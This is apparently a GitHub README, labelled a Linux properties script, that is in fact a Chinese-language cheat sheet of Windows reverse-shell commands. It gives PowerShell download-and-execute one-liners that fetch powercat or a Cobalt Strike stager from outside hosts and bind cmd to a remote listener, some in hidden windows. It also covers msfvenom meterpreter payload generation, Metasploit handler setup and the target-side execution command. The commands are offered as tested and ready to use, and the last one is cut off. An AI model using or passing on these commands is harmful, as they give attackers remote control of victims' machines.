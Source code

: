 # CheckLinux
linux的基本属性脚本
————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————————
#cmd窗口下利用Powershell反弹NC shell 
亲测所有机器都适用
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient)DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/master/powercat.ps1');powercat -c 192.168.10.11  -p 8888 -e cmd.exe"
#cmd窗口下利用Powershell反弹CobaltStrike shell
windows10 经常性不能用。windows 2008R2以下百分百适用。
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"  
#cmd窗口下反弹MSF shell

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection >7788.ps1        #生成木马文件 7788.ps1
python -m SimpleHTTPServer 80  #开启web服务
#MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 114.118.80.138
set lport 7788
exploit -j
#目标机的操作

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行
或者
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps'
